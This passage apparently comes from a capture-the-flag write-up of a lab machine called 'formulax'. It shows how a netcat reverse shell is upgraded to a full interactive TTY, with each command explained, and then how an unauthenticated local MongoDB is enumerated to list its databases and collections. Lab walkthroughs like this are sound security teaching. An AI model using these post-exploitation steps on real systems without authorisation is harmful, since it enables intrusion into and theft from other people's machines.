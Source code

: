 Now I will do the tty treatment to have a completely interactive shell:

```plaintext
www-data@formulax:~/git-auto-update$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@formulax:~/git-auto-update$ ^Z
[1]  + 143019 suspended  nc -lvnp 443
❯ stty raw -echo; fg
[1]  + 143019 continued  nc -lvnp 443
                                     reset xterm
www-data@formulax:~/git-auto-update$ export TERM=xterm
www-data@formulax:~/git-auto-update$ export SHELL=bash
www-data@formulax:~/git-auto-update$ stty rows 50 cols 184
```

* `script /dev/null -c bash`: Spawns a tty.
* `ctrl+z`: puts the shell in background for later doing a treatment.
* `stty raw -echo;fg`: gives the shell back again.
* `reset xterm`: resets the terminal to give the bash console.
* `export TERM=xterm`: let do ctrl+l to clean the terminal.
* `export SHELL=bash`: specifies the system that it's using a bash console.
* `stty rows <YOUR ROWS> cols <YOUR COLUMNS>`: sets the size of the current full terminal window. It is possible to view the right size for your window running `stty size` in a entire new window on your terminal.

# Access as frank_dorky

Looking at the open ports, I can see [port 27017](https://www.mongodb.com/docs/manual/reference/default-mongodb-port/), which corresponds to mongodb. I will connect and see the info there, as it's probably the database for the web:

```bash
www-data@formulax:~/git-auto-update$ mongo
MongoDB shell version v4.4.29
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("b3c9f88a-0a55-4a7b-8c8f-cb9ee54892f1") }
MongoDB server version: 4.4.8
---
The server generated these startup warnings when booting: 
        2024-08-02T06:11:42.385+00:00: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine. See http://dochub.mongodb.org/core/prodnotes-filesystem
        2024-08-02T06:11:43.273+00:00: Access control is not enabled for the database. Read and write access to data and configuration is unrestricted
---
> show dbs
admin    0.000GB
config   0.000GB
local    0.000GB
testing  0.000GB
> use testing
switched to db testing
> show collections
messages
users
```
